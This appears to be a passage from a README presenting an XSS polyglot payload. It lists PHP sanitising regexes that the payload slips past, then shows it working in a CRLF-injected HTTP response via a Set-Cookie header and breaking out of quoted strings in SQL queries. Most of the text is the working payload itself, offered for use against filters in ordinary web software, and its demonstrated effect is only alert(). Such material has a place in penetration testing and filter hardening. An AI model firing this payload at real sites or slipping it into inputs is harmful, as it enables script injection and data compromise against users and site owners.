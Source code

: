 * `--!>` bypasses: 
```php
preg_replace('/-->/', '', PAYLOAD);
```

* ``` <sVg/oNloAd=alert()//> ``` bypasses:
```php
preg_replace('/<\w+\s+/', '', PAYLOAD);
```

## Bonus attacking contexts covered:
#### CRLF-based XSS:
````http

HTTP/1.1 200 OK
Date: Sun, 01 Mar 2016 00:00:00 GMT
Content-Type: text/html; charset=utf-8
Set-Cookie: x=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//

//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

````
#### Error-based SQL injections (yes, SQLi!):
````sql

SELECT * FROM Users WHERE Username='jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e'

````
````sql

SELECT * FROM Users WHERE Username="jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e"

````

###### And even more; eish...I'm tired counting down already!!